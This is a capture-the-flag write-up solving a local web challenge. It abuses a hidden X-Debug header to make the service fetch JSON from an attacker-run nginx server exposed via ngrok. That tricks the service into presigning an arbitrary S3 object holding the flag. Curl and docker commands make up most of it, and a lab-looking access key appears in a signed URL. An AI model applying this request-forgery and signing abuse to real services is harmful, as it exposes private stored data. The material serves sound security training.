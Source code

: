 # Solution

## View the swagger docs

View the swagger docs and find the characters endpoint, and hopefully the commented
out X-Debug header too.

## Hit the characters endpoint

Observe the behavior. It returns both "photo" _and_ "photoURL". Remember the X-Debug
parameter. Play around for a bit and start passing values for that. Notice it's trying
to make a request to whatever you pass:

```bash
➜  ~ curl localhost:8081/characters -H "X-Debug: asdf"                 
unable to make get characters request to service "asdf": Get asdf/characters: unsupported protocol scheme ""
```

## Spin up a server

Spin up an nginx server with just one suspect entry. Expose it to the internet

```bash
mkdir static
curl -Ss localhost:8081/characters | jq "[.[0]]" -M > static/characters
docker run -p 8089:80 -v "$(pwd)/static:/usr/share/nginx/html:ro" --name nginx-solution -d nginx
ngrok http 8089
```

## Point the server at your server

```bash
➜  ~ curl localhost:8081/characters -H "X-Debug: http://f6963781.ngrok.io"
[{"firstName":"Kate","lastName":"Libby","aliases":["Acid Burn"],"photo":"hackers/photos/42842/74b7f996-8b1c-4f16-ab35-4b5e99225347.jpg","photoUrl":"http://localhost:9000/suspects/hackers/photos/42842/74b7f996-8b1c-4f16-ab35-4b5e99225347.jpg?X-Amz-Algorithm=AWS4-HMAC-SHA256\u0026X-Amz-Credential=IL0B9GDKIR7XCKYZWNS6%2F20191010%2Fus-east-1%2Fs3%2Faws4_request\u0026X-Amz-Date=20191010T050215Z\u0026X-Amz-Expires=300\u0026X-Amz-SignedHeaders=host\u0026X-Amz-Signature=3d4ae23ee907eac787d37e88c1a051e516159e69956bf4b93e3513e705e095a2"}]
```

Notice that it seems to be using whatever you return in "photo" and signing and setting
photoUrl.

## Think about what you can get it to sign

Play around for a bit. Eventually, get back to looking at the OpenAPI spec and notice
the example value for photo: "20897.jpg". Try returning that.

```bash
curl -Ss localhost:8081/characters | jq '[.[0] | .photo = "20897.jpg"]' > static/characters
docker kill nginx-solution && docker rm nginx-solution
docker run -p 8089:80 -v "$(pwd)/static:/usr/share/nginx/html:ro" --name nginx-solution -d nginx
ngrok http 8089
```

## Get it to sign the flag

```bash
curl localhost:8081/characters -H "X-Debug: http://afc70734.ngrok.io"
```

The flag is returned in an image!